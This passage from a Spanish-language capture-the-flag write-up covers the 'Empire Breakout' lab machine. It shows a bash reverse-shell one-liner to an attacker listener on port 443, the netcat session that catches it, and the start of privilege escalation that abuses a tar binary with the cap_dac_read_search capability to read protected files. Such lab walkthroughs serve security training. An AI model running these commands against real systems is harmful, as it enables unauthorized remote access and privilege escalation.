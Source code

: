 ![](/assets/images/vh-empirebreackout/empire-web9.png)

Ahora, vamos a tratar de entablarnos una reverse shell a una máquina de atacante. Por lo tanto, nos ponemos en escucha por el puerto 443:

```bash
[cyber@breakout ~] bash -i >& /dev/tcp/10.0.0.25/443 0>&1
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.0.0.25] from (UNKNOWN) [10.0.0.28] 56686
bash: cannot set terminal process group (999): Inappropriate ioctl for device
bash: no job control in this shell
cyber@breakout:~$ whoami
whoami
cyber
cyber@breakout:~$
```

Como siempre, vamos a hacer un [Tratamiento de la tty](/tratamiento-tty). Ya dentro de la máquina somos el usuario **cyber** y podemos visualizar la flag (user.txt). Si checamos nuestro directorio personal, vemos el binario `tar`, el cual podría tratarse de una pista.

```bash
cyber@breakout:~$ ls -l
total 524
-rwxr-xr-x 1 root  root  531928 Oct 19 15:40 tar
-rw-r--r-- 1 cyber cyber     48 Oct 19 14:31 user.txt
cyber@breakout:~$
```

Si checamos las capabilities del binario, vemos que tiene `cap_dac_read_search=ep`:

```bash
cyber@breakout:~$ getcap tar
tar cap_dac_read_search=ep
cyber@breakout:~$
```

Esto nos permite tener permisos de lectura a cualquier archivo; lo que nos permitiría crear un archivo comprimido de cualquier archivo del sistema para posteriormente descomprimir y tener los permisos del usuario **cyber**. Por lo tanto, podriamos tratar de pensar que existe un archivo que tenga información que nos ayude a convertirnos en **root**. Si buscamos un poco, encontramos un recurso interesante en `/var/backups`:
